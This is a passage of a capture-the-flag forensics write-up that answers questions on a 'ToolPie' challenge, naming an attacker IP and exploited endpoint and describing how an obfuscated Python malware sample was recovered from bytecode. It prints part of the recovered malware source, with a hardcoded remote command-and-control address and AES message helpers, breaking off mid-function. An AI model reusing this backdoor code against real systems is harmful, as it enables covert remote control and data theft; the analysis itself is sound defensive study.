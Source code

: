 After tried decrypting all commands, I got the scheduled task in **TCP Stream 35**:

![image](https://github.com/user-attachments/assets/d5184aa3-2c84-46aa-8f91-8df408e3c912)

**6. What is the API key leaked from the highly valuable file discovered by the attacker?**:

Do the same and you will get the API key in TCP stream 97: 

![image](https://github.com/user-attachments/assets/d7c82dcd-55c9-46e1-92a8-0f942e772b5d)

### ToolPie

This challenge was kinda bruh with me because of malware sample. Btw, it's still worth to try. 

**1. What is the IP address responsible for compromising the website?**: 194.59.6.66

A suspicious python file was uploaded to the server by this IP, so this is the answer

![image](https://github.com/user-attachments/assets/7fbee3b6-f10e-462a-b6de-88c15ea1132e)

**2. What is the name of the endpoint exploited by the attacker?**: execute

![image](https://github.com/user-attachments/assets/3707475f-9982-4f6e-9313-a4f3c9c988e4)

These questions aftter 

**3. What is the name of the obfuscation tool used by the attacker?**: 

These questions after were extremely tough because we could not run and decompile the file normally, instead we had to interact with **Python bytecode**. 
From here the best way is that you could try to encode the code by base64 and run it on Python: 

![image](https://github.com/user-attachments/assets/b568c9d1-ca5e-4d40-bfad-39b40ac964ed)

I hate these steps after since it took me a long time to do. Fortunately, I got a nearly completed source code but btw, it displayed nearly 95% how the python code worked. Also thank you my friend for helping me this step: 

```python
import os
import socket
import threading
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util import Padding

BUFFER_SIZE = 4096
SEPARATOR = "<SEPARATOR>"
CONN = ("13.61.7.218", 55155)

def enc_mes(mes, key):
    cipher = AES.new(key.encode(), AES.MODE_CBC)
    cypher_block = cipher.iv + cipher.encrypt(Padding.pad(mes.encode(), 16))
    return cypher_block

def dec_file_mes(mes, key):
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv=key.encode())
    s = Padding.unpad(cipher.decrypt(mes[16:]), 16)
    return s

def dec_mes(mes, key):
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, iv=key.encode())
        v = Padding.unpad(cipher.decrypt(mes[16:]), 16)
        return v
    except Exception:
```